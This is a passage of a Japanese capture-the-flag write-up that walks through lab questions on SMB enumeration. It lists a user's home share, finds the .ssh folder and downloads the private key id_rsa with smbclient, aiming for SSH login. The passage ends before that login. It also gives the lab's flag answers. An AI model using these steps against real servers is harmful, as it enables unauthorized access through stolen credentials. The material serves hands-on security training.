 ```bash
部門マネージャー 
```  
`ssh`でリモートで仕事できるようになったとのこと
#### flag 
`ssh`  
  
### 2-8.これで、共有上のどのディレクトリを確認すればよいでしょうか?
`ssh`なら公開鍵認証で接続する可能性がある。ならば`.ssh`に鍵があるだろうという思考過程から、今いる共有フォルダに`.ssh`があるかもう一回見直す  
```bash
smb: \> ls
  .                                   D        0  Tue Apr 21 20:08:23 2020
  ..                                  D        0  Tue Apr 21 19:49:56 2020
  .cache                             DH        0  Tue Apr 21 20:08:23 2020
  .profile                            H      807  Tue Apr 21 20:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 20:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 20:08:23 2020
  .viminfo                            H      947  Tue Apr 21 20:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 20:08:23 2020
  .ssh                               DH        0  Tue Apr 21 20:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 20:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 20:08:23 2020

		12316808 blocks of size 1024. 7567324 blocks available
```
異状なくみつかる  
#### flag 
`.ssh`

### 2-9.このディレクトリには、ユーザーがサーバー上で認証してアクセスできるようにする認証キーが含まれています。これらのキーのうち、最も役立つものはどれですか?
単純に`ssh`で接続して永続化をするためなら、`id_rsa`の方が重要かと思ったが、`id_rsa.pub`が重要でないという理由も思いつかない。  
正直どっちかしかないので、間違えたらもう一方をsubmitすればいいだろう。  
  
ここで一応`cd`で`.ssh`に移動して、`ls`でディレクトリの中身を見てみる
```bash
smb: \> cd .ssh
```
```bash
                                   D        0  Tue Apr 21 20:08:23 2020
  ..                                  D        0  Tue Apr 21 20:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 20:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 20:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 20:08:23 2020

		12316808 blocks of size 1024. 7567324 blocks available
```

#### flag 
`id_rsa`  
  
### 2-10.すでに収集した情報を使用してアカウントのユーザー名を調べます。次に、サービスとキーを使用してサーバーにログインします。smb.txt フラグとは何ですか?
`ssh`でログインしなきゃいけないなら、とりあえずダウンロードだろ。  
ってことで、`id_rsa`をダウンロード。ついでに何か情報があるかもしれないので、`id_rsa.pub`もダウンロードしておく。  
```bash
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)

smb: \.ssh\> get id_rsa.pub
getting file \.ssh\id_rsa.pub of size 396 as id_rsa.pub (0.4 KiloBytes/sec) (average 1.2 KiloBytes/sec)

```